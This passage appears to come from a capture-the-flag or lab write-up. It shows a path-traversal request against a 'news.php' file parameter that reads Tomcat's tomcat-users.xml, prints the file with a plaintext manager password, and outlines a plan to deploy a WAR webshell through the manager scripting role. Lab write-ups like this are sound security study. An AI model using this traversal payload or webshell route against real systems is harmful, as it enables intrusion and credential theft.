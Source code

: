 Finally this leads me to finding the Tomcat users XML file:
```bash
/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml

<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```
The defined user account has permission to access the host-manager webapp, and manager scripting. Previously in a Pentesterlab exercise I have been shown how to get a webshell through the manager GUI using a war file - some research into the manager scripting role shows this is just a non-graphical interface to perform the same functions, therefore I should be able to do the same thing here, just in a different way.
